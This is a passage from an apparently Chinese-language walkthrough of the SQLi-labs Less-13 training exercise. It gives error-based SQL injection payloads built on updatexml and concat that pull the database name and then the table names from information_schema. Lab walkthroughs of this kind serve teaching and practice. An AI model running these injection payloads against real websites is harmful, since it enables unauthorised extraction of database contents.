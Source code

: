没有报错回显，说明字段数是2



+ 爆破数据库名

~~~ shell
1') union select 1,updatexml(1,concat(0x7e,database(),0x7e),1) #
~~~

![Less-13_9](./img/Less-13_9.PNG)

爆破出数据库名是`security`



+ 注入如下语句爆破数据表名

~~~ shell
1') union select 1,updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = 'security'),0x7e),1)#
~~~
